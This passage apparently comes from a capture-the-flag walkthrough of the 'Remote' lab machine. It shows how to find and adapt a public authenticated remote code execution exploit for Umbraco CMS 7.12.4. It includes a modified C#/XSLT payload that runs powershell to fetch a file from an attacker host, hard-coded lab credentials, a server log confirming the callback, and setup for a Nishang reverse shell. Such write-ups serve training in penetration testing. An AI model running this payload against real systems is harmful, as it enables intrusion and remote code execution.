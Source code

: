 Using searchsploit, we find an authenticated remote code execution exploit for this particular version

```bash
┌─[oztechmuse@parrot]─[~/boxes/Remote]
└──╼ $searchsploit umbraco
-------------------------- ---------------------------------
 Exploit Path
-------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit) | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting | php/webapps/44988.txt
```

We can copy the Python exploit to our local directory:

```bash
┌─[rin@parrot]─[~/boxes/Remote]
└──╼ $searchsploit -m aspx/webapps/46153.py
 Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
 URL: https://www.exploit-db.com/exploits/46153
 Path: /usr/share/exploitdb/exploits/aspx/webapps/46153.py
File Type: Python script, ASCII text executable, with CRLF line terminators
Copied to: /home/rin/boxes/Remote/46153.py
```

We need to change the cmd string and the authentication and host details

```bash
{ string cmd = "wget http://10.10.14.117:8082/afile"; \
System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; \
 proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of 
 select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
login = "admin@htb.local;
password="baconandcheese";
host = "http://remote.htb";
```

We can run a Python web server on port 8082 and run the exploit to verify that we get a hit which we do:

```bash
┌─[rin@parrot]─[~/boxes/Remote]
└──╼ $python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.129.1.153 - - [05/Jan/2021 21:04:20] code 404, message File not found
10.129.1.153 - - [05/Jan/2021 21:04:20] "GET /afile HTTP/1.1" 404 -
```

To get a reverse shell, we could use Metasploit but we can just as easily use Nishang \(https://github.com/samratashok/nishang\). We have used this before, so we can use Invoke-PowerShellTcp.ps1 and put the following line at the bottom of the file and rename it as revsh.ps1
